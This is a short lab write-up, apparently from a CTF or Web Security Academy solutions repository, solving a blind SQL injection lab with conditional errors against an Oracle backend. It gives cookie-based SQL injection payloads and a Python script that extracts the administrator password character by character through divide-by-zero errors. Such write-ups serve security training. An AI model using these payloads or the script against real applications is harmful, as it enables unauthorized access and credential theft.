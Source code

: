 # Lab: Blind SQL injection with conditional errors
> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
>

## Step 1 : Check vul in cookie header 
`Cookie: TrackingId=yp56RjgdYZOCDcLU; session=1eiC0v7TXw3mZrOBBHCwKwwcKHZEI8Yr`

```sql
1' or 1=1-- -
```
## Step 2 : Check length
```sql
123' union select CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and length(password)=20-- -
```
=> After checking , we discovered that the database is Oracle

=> Conditional in Oracle => `CASE WHEN (CONDITION) THEN TO_CHAR(1/0) ELSE '' END FROM table_name`

`TO_CHAR(1/0)` is a divide-by-zero error => 500

## Step 3 : Code bypass
```py
import requests
import string

url='https://acaa1fa41e0d3e4cc05d039200b7009c.web-security-academy.net/'
chars = string.printable[:-6]
#print(chars)
admin_pass=''
i=1
s=requests.Session()
s.get(url)

while True:
	for c in chars:
		payload = f"1' union select CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,{i},1)='{c}'-- -"
		cookie1={"TrackingId":payload}
		r = requests.get(url,cookies=cookie1)
		print(c)
		if r.status_code == 500:
			print('okeeeeeeeeeee')
			admin_pass+=c 
			i+=1
			print(admin_pass)
			break
		if(i==21):
			print('password administrator :' admin_pass)
			exit()
```

==> Password :

![pass](https://github.com/tinasahara1/Vulnerable-CTF-/blob/9e2b6fb3b808e1b605f99425788ed90ca8523232/SQL/MySQL/image/error2.PNG)


